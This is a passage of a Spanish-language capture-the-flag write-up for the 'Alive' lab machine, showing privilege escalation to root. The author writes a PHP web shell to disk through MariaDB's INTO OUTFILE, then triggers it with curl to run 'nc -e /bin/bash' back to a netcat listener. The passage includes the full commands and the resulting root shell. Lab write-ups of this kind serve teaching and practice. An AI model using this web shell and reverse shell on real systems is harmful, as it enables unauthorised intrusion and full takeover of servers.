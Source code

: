 Vemos que el usuario `admin` tiene todos los permisos, vamos a probar si nos deja crear un fichero en el directorio `/opt/`{: .filepath } mediante `MariaDB`:

```sh
MariaDB [(none)]> SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/opt/shell.php";
Query OK, 1 row affected (0.001 sec)
```

```sh
www-data@alive:/$ ls -la /opt/
total 20
drwxr-xr-x.  2 root     root     4096 Apr 16 22:44 .
drwxr-xr-x. 18 root     root     4096 Jan 17 07:01 ..
-rw-r--r--   1 www-data www-data  252 Jan 14 10:04 backup.zip
-r--r--r--.  1 www-data www-data  149 Jan 14 10:04 index.html
-rw-rw-rw-   1 root     root       31 Apr 16 22:44 shell.php
```

¡Perfecto! Nos ha dejado crear satisfactoriamente el fichero `PHP`. Para poder explotarlo me gustaría explicar lo que hace el `one liner` que hemos creado previamente:

Es muy sencillo, una vez le llegua una petición `GET` cogerá del parámetro `cmd` todo aquello que le hayamos pasado y, por último, lo ejecutará.

Sabiendo su funcionamiento pasemos a la explotación, aunque primero nos debemos poner en escucha:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Alive]
└─# nc -nlvp 443 
listening on [any] 443 ...
```

Una vez en escucha mandaremos una petición con `cURL` al fichero `shell.php` que habíamos creado, vamos allá:

> **IMPORTANTE**: La petición debe de ser enviada desde la **máquina víctima**, ya que es un servidor local.
{: .prompt-tip }

```sh
www-data@alive:/$ curl http://127.0.0.1:8000/shell.php?cmd=nc+-e+/bin/bash+192.168.1.105+443
```

Tras el envío de la petición veremos que automáticamente recibimos la `Shell` en nuestro equipo:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Alive]
└─# nc -nlvp 443 
listening on [any] 443 ...
connect to [192.168.1.105] from (UNKNOWN) [192.168.1.111] 55746
root@alive:/opt#
```

¡Enhorabuena! Hemos conseguido el **control total** de la máquina. ¡Qué fácil!